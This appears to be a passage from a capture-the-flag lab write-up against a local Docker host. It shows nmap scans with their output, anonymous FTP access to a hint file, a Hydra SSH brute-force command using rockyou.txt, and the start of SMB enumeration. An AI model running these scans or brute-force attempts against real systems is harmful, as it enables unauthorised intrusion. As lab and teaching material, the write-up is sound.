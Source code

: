 **Scan Command:**
```bash
nmap -p- --open --min-rate=5000 -sS -v -Pn -n -A 172.17.0.3 -oX nmap.xml
````

A service scan was performed, exposing a file named **"nota.txt"** inside the FTP service with the **anonymous** user.
```json
nmap -sCV -p 21,22,139,445 -n -Pn 172.17.0.3 -oN allServices

21/tcp  open  ftp         vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Aug 19  2024 nota.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4

```
## 2. Initial Access and FTP/SMB Enumeration

The possibility of **anonymous FTP access** was identified.

1. **Anonymous FTP:** We logged in as `anonymous` to the FTP server and downloaded the file **`nota.txt`**.
    
2. **Key Message:** The content of `nota.txt` revealed a username hint: `"I don't know what to do with Macarena, she's obsessed with donald."`.
    
3. **SSH Brute-Force (Failure):** An attempt to use `macarena` and `donald` against password lists with **Hydra** failed.
    
    ```bash
    hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -V -t 64 -w 2
    ```
    
**SMB Enumeration (smbmap):** We used **`smbmap`** to test common name combinations and the hint (`macarena`, `donald`).
